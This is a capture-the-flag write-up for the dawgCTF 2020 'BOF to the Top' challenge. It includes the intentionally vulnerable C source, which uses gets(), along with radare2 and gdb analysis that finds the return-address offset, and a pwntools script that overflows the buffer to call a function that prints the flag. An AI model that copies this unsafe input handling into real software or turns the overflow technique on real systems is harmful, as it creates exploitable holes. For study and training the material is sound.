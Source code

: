 ```yaml
---
layout: post
title: "Bof to the Top"
author: "Trojan187"
categories: ctf
tags: [documentation,sample]
image: ctf.PNG
---
```



## Table of Contents

1. [Introduction](#introduction)
2. [Analysis](#Analysis)
3. [Plan](#Plan)
4. [Solution](#Solution)


##  Introduction

The challenge provides us with the code and a binary.

## dawgCTF-2020: BOF to the Top

Files: `bof.c` & `bof`

`bof.c`
```c

#include "stdio.h"
#include "string.h"
#include "stdlib.h"

// gcc -m32 -fno-stack-protector -no-pie bof.c -o bof

void audition(int time, int room_num){
	char* flag = "/bin/cat flag.txt";
	if(time == 1200 && room_num == 366){
		system(flag);
	}
}

void get_audition_info(){
	char name[50];
	char song[50];
	printf("What's your name?\n");
	gets(name);
	printf("What song will you be singing?\n");
	gets(song);
}

void welcome(){
	printf("Welcome to East High!\n");
	printf("We're the Wildcats and getting ready for our spring musical\n");
	printf("We're now accepting signups for auditions!\n");
}

int main(){
	welcome();
	get_audition_info();
	return 0;
}
```

 `bof`
##  Analysis

Running this binary as seen in the code, askes "What's your name?" and takes the user input then again it asks "What song will you be singing?" 

<img src="../../../../../assets/img/blogs/2020-04-19/bin_run.PNG">

Lets take a look at the properties of the binary.

<img src="../../../../../assets/img/blogs/2020-04-19/checksec.PNG">

<img src="../../../../../assets/img/blogs/2020-04-19/file.PNG">

Running radare2 to further analyse the binary.

<img src="../../../../../assets/img/blogs/2020-04-19/r2_aaaa.PNG">

List functions (addr, size, bbs, name)
NOTE* the audition() function location @ `0x08049182`

<img src="../../../../../assets/img/blogs/2020-04-19/r2_afl.PNG">

Print the disassembly of the audition() function.

<img src="../../../../../assets/img/blogs/2020-04-19/r2_pdf_audition.PNG">

Print the disassembly of the get_audition_info() function

<img src="../../../../../assets/img/blogs/2020-04-19/r2_pdf_get_audition_info.PNG">

Ok so a summary of what has been found out so far:
From the code `bof.c` we can see the audition() function will `"/bin/cat flag.txt"` if the values of time == `1200` && room_num == `366`.

##  Plan
The address of the audition() function can be found @ `0x08049182` so if we can find the buffer overflow and control the registers the values needed can be put onto the stack and the function will provide the flag.txt. 

For local testing first I created a `flag.txt` in the same working directory.

Lets get started with gdb:

<img src="../../../../../assets/img/blogs/2020-04-19/gdb_start.PNG">

Before running the binary I created a pattern of 200 characters which will be used to find the segmetaion fault.

<img src="../../../../../assets/img/blogs/2020-04-19/gdb_start_pattern_create.PNG">

No segmentation fault was found with the first input.

<img src="../../../../../assets/img/blogs/2020-04-19/gdb_no_seg_fault.PNG">

Great, a segmentation fault occured on the 2nd input. With `EIP` being overwritten by `AA8A` (`0x41384141`) @ `112` characters in.

<img src="../../../../../assets/img/blogs/2020-04-19/gdb_seg_fault_EIP.PNG">

##  Solution

Bringing it all together - this is what my final script looked like:

<img src="../../../../../assets/img/blogs/2020-04-19/final_solution.PNG">

```python

#!/usr/bin/python
from pwn import *

context(arch='x86', os='linux', endian='little', word_size=32)

binary_path = './bof'
e = ELF(binary_path)
p = process(binary_path)

buf = "A" * 112
buf += p32(0x08049182)
buf += "B" * 4
buf += p32(1200)
buf += p32(366)

print(p.recvuntil('?\n'))
p.sendline("Billy")
print(p.recvuntil('?\n'))
p.sendline(buf)
p.interactive()

```

Local test to confirm the script is working and the flag.txt can be read:

<img src="../../../../../assets/img/blogs/2020-04-19/final.PNG">






## END
---
